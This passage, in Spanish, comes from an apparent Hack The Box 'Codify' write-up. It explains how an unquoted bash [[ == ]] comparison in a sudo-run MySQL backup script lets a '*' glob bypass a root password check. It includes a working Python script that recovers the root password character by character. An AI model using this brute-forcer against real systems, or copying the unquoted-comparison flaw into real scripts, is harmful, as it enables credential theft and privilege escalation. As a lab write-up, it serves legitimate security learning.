 Para esta parte, quiero darle las gracias al **writeup** de [Aakash Dubey](https://medium.com/@aakashdubey20010907/codify-htb-writeup-933488bfbfff), que me ayudó a entender mucho mejor qué rayos estaba pasando.

En primer lugar, el **script** solicita una contraseña y la compara con la contraseña del usuario root que se encuentra almacenada dentro de un archivo. Si la contraseña ingresada es igual, se realiza una copia de la **base de datos** en la ruta **/var/backups/mysql**.

Según explican en los **artículos**  [BashPitfalls](https://mywiki.wooledge.org/BashPitfalls?source=post_page-----933488bfbfff--------------------------------) y [Safe ways to do things in bash](https://github.com/anordal/shellharden/blob/master/how_to_do_things_safely_in_bash.md?source=post_page-----933488bfbfff--------------------------------), la vulnerabilidad de este **script** se encuentra en el **if** donde se están comparando las **credenciales**. Dado que el input del usuario no se coloca dentro de **comillas (" ")**, no se define como una cadena, lo que permite que se interpreten argumentos como **expresiones regulares (regex)**. El problema de esto es que al realizar la comparación, el carácter * permite realizar un bypass de la comprobación.

> Las expresiones regulares, también conocidas como regex, son secuencias de caracteres que conforman un patrón de búsqueda. Estas herramientas poderosas permiten realizar búsquedas avanzadas y manipulaciones de texto mediante la definición de reglas específicas.
{: .prompt-info }

```bash
Password="root"

if [[ $Password == * ]]; # => Devuelve True
if [[ $Password == "*" ]]; # => Devuelve False
if [[ $Password == r* ]]; # => Devuelve True
if [[ $Password == "r*" ]]; # => Devuelve False 

```
{: file="example.sh"}

Ahora, la vulnerabilidad se puede explotar realizando un script que pruebe caracter por caracter, añadiéndole un * al final para ver cuál está dentro de la contraseña. Cada vez que se encuentre uno válido, se puede agregar otro nuevo a la contraseña hasta encontrarla completa.

```python
import string
import subprocess

chars = list(string.ascii_letters + string.digits +"#!%?_-.,+/" + " ")
password = ""
found = False

while not found:
    for char in chars:
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
        if char == " ":
            print("Password dumpeada")
            print(password)
            found = True

        elif "Password confirmed!" in output:
            password += char
            print(password)
            break       
```
{: file="dumper.py"}
